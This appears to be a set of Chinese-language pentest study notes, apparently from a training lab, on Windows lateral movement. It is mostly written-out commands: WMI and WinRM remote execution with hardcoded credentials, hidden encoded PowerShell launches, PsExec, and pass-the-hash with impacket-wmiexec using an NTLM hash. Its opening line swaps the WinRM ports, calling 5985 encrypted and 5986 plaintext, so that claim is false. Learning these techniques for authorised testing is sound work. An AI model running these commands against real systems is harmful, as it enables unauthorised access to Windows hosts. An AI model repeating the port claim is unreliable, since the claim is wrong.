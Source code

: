 > WinRM只有 Administrators 或是 Remote Management Users group裡面的人才可以使用，也是可以遠端執行程序，WinRM使用5985(encrypt https)及5986(plaintext http)

- WMI
``` powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;


$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'powershell -nop -w hidden -e ..........';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
- WinRM
``` powershell
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
winrs.exe -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGw....."
```
```
winrs -r:dcorp-adminsrv cmd
```
- WinRM for Powershell
``` powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.217.73 -Credential $credential
```
``` powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
``` powershell
Enter-PSSession 1
```
## PsExec
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
## Pass The Hash
>[!WARNING]
>很多種方法，這邊教impacket-wmiexec
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
## Overpass the Hash
>[!NOTE]
>用 NTLM hash 當成 Kerberos 使用者 key，直接生成 AS-REQ 拿 TGT，讓只有 hash 的攻擊者也能進 Kerberos 世界。

